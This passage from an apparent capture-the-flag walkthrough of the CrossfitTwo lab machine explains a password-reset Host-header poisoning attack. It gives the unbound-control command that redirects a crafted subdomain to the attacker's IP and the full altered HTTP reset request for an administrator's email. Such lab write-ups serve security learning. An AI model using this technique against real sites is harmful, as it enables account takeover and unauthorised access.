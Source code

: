I started out thinking I needed to reset the admin’s password, but that ended up not working.

What I’ll need to do is create a user on the `crossfit-club.htb` site. To do that, I need an admin to make the API request. The only way I know of to send an admin a link here is using the password reset link, but presumably, that just sends a link to `employees.crossfit.htb`.

The next step was inspired by [this HackerOne report](https://hackerone.com/reports/281575). Basically, the site wanted the password reset script to be robust against website name changes, so it used the `Host` header to generate the link that gets sent to the user.

I can modify the `Host` header in a password reset request. I’ll need to do it so that `relayd` still routes it to the Employees site. I can use `unbound-control` so that the domain resolves to me, and that will get an admin requesting a page from my host. I can return a page with the JavaScript necessary to make the request to the API to create an account for me. If that works, I’ll have an account and can log in.

#### Initial Password Reset Request

I need a domain name that will route through `relayd` and reach the site on 8001, so it will have to match `*employees.crossfit.htb`. I don’t want to hijack the entire site, but I showed above that something like `0xdf-employees.crossfit.htb` will reach the site on 8001.

I’ll use `unbound-control` to tell CrossfitTwo that I’m the server for that zone (it’s worth noting that this is cleared every few minutes, so worth resending if things stop working):

```

oxdf@parrot$ sudo unbound-control -s 10.10.10.232 forward_add +i 0xdf-employees.crossfit.htb 10.10.14.13@53
ok

```

While I’m still testing to see if this is going to work, I’ll just listen on UDP 53 with `nc` to see if that resolution happens.

I’ll go back and submit a password reset request for david.palmer@crossfit.htb (because his username was administrator) just like above, but catch the request in Burp Proxy and kick it to Repeater. I’ll update the `Host` header to the new domain:

```

POST /password-reset.php HTTP/1.1
Host: 0xdf-employees.crossfit.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://employees.crossfit.htb
DNT: 1
Connection: close
Referer: http://employees.crossfit.htb/password-reset.php
Upgrade-Insecure-Requests: 1

email=david.palmer%40crossfit.htb

```
